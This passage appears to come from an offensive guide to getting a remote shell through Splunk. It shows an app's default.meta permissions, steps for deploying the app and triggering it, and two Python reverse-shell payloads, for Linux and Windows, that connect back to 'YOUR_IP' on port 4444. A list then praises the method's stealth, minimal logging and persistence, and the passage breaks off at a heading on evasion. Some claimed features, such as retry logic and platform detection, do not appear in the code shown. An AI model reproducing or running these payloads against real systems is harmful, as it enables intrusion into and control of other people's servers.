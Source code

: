 3. In `default.meta`:
```
[]
access = read : [ * ], write : [ admin ]
export = system
```

4. Deploy the app to `$SPLUNK_HOME/etc/apps/` and restart Splunk

5. Then trigger the reverse shell using:
```
| reverse_shell
```

#### 2. One-time Execution Method

For a less persistent approach, use the built-in scripting capability:

```
| script python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("YOUR_IP",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
```

For Windows:
```
| script python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("YOUR_IP",4444));
p=subprocess.Popen(["powershell.exe"],stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE);
while True:
  cmd=s.recv(1024).decode();
  if not cmd: break;
  output=subprocess.check_output(cmd,shell=True);
  s.send(output);
```

### Modern Improvements

This approach has several advantages over the original:

1. **Platform Detection**: Automatically adapts to Windows or Linux environments
2. **Reliability**: Built-in retry mechanism for connection failures
3. **Stealth**: Minimal logging and clean error handling
4. **Persistence Options**: Can be deployed temporarily or persistently
5. **Interactive Shell**: Full bidirectional communication
6. **Error Handling**: More robust error handling and logging

### Additional Evasion Techniques
